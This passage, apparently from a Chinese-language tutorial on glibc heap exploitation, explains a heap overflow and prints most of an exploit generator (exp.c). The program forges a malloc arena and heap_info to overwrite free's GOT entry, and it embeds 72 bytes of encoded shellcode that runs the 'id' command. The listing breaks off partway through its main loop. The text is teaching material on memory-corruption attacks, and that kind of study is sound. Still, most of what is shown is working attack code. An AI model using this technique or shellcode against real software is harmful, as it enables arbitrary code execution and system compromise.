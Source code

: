 漏洞程序的行`[3]`是堆溢出发生的地方。用户输入储存在块 1 的`mem`指针处，大小共计 1MB。所以为了成功利用堆溢出，攻击者提供了下面的用户输入（列出顺序相同）。

*   伪造的 arena
*   垃圾数据
*   伪造的 `heap_info`
*   Shellcode

利用程序：这个程序生成了攻击者的数据文件：

```
/* exp.c
Program to generate attacker data.
Command:
     #./exp > file
*/
#include <stdio.h>

#define BIN1 0xb7fd8430

char scode[] =
/* Shellcode to execute linux command "id". Size - 72 bytes. */
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";

char ret_str[4] = "\x00\x00\x00\x00";

void convert_endianess(int arg)
{
        int i=0;
        ret_str[3] = (arg & 0xFF000000) >> 24;
        ret_str[2] = (arg & 0x00FF0000) >> 16;
        ret_str[1] = (arg & 0x0000FF00) >> 8;
        ret_str[0] = (arg & 0x000000FF) >> 0;
}
int main() {
        int i=0,j=0;

        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd_nextsize */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk_nextsize */
        /* Fake Arena. */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* mutex */
        fwrite("\x01\x00\x00\x00", 4, 1, stdout); /* flag */
        for(i=0;i<10;i++)
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fastbinsY */
        fwrite("\xb0\x0e\x10\x08", 4, 1, stdout); /* top */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* last_remainder */
        for(i=0;i<127;i++) {
                convert_endianess(BIN1+(i*8));
                if(i == 119) {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* preserve prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* preserve size */
                } else if(i==0) {
                        fwrite("\xe8\x98\x04\x08", 4, 1, stdout); /* bins[i][0] = (GOT(free) - 12) */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
                else {
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][0] */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
```